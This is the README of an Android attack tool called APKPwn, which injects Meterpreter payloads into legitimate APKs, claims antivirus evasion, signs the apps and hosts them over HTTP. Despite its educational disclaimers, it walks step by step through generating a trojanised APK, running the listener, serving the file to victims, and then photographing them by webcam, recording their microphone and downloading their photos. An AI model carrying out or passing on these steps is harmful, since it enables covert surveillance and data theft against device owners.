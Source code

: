 # APKPwn - Android AV Evasion & Payload Injection Tool

APKPwn is a cybersecurity awareness tool designed to generate infected APKs with **Meterpreter** payloads. This tool is intended for educational purposes to demonstrate the risks of poorly managed mobile applications, particularly installing untrusted software.

> **⚠️ IMPORTANT:**
> This project is for educational and awareness purposes only. Any malicious use of this tool is strictly prohibited. **Never use the generated APKs in a real environment or without explicit consent.** The tool is designed for secure testing environments only.

## Features
- Generate Android payloads using `msfvenom`.
- AV evasion for testing on Android apps.
- Integrated APK signing.
- Built-in HTTP server to host and serve malicious APKs.

## Requirements

- Linux system (tested on Ubuntu/Debian).
- Metasploit Framework installed.
- The following dependencies should be present:
  - `apktool`
  - `openjdk-11-jdk`
  - `apksigner`
  - `zipalign`
  
If the dependencies are not installed, the tool will attempt to install them automatically.

## Installation

1. Clone the repository to your machine:

    ```bash
    git clone https://github.com/your-username/APKPwn.git
    cd APKPwn
    ```

2. Install the dependencies:

    The tool will check for the required dependencies and prompt you to install them if necessary.

    ```bash
    python3 apkpwn.py
    ```

3. Run the tool:

    ```bash
    python3 apkpwn.py
    ```

    Follow the on-screen instructions to select the payload, set host and port options, and create the infected APK.

## Usage

### Step 1: Generate the infected APK

Once the tool is launched, you will need to provide the following information:
- **LHOST**: The IP address of your machine (automatically detected by the tool).
- **LPORT**: The port on which Metasploit will listen for connections.
- **Original APK**: Path to a legitimate APK you want to inject the payload into.
- **Output APK**: Name of the malicious APK that will be generated.

### Step 2: Start Metasploit and wait for a connection

The tool will generate a `meterpreter_handler.rc` file to help you start the Metasploit listener:

    msfconsole -r meterpreter_handler.rc

This will launch a handler that will wait for a connection from the infected APK.

### Step 3: Start the HTTP server

Once the malicious APK is generated, the tool will start an HTTP server on your machine to serve the APK:

    ```bash
    http://your-ip:8000/your_malicious_apk.apk
    ```

The goal is to raise awareness of the dangers of APKs downloaded from unofficial sources.

### Step 4: Open a Meterpreter session

When the user installs and runs the infected APK on their device, a Meterpreter session will open. You can then interact with the compromised device:

    ```bash
    meterpreter > sessions -i [Session ID]
    ```

## Awareness Scenario

Here’s a typical awareness scenario for an open Meterpreter session on an Android device.

### 1. **Take a screenshot:**

This demonstrates how an attacker can view the user’s screen:

    ```bash
    meterpreter > screenshot
    ```

### 2. **Retrieve device information:**

To show the amount of information accessible to the attacker:

    ```bash
    meterpreter > sysinfo
    ```

### 3. **Check if the device is rooted:**

Shows how the attacker can check if the device has root permissions:

    ```bash
    meterpreter > check_root
    ```

### 4. **Activate the camera and take a picture:**

A powerful example of how privacy can be compromised:

    ```bash
    meterpreter > webcam_snap
    ```

### 5. **Activate the microphone and record audio:**

Demonstrates how the attacker can record the user’s environment:

    ```bash
    meterpreter > record_mic
    ```

### 6. **Extract files from the device:**

Shows that all the user's data can be exfiltrated:

    ```bash
    meterpreter > ls /sdcard/
    meterpreter > download /sdcard/DCIM/photo.jpg
    ```

## Disclaimer

**APKPwn is strictly for educational and awareness purposes.** Use this tool only in controlled environments with the authorization of all involved parties. Malicious use may result in severe legal consequences.

## Contributions

Contributions are welcome! If you would like to improve the tool, feel free to submit a Pull Request.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
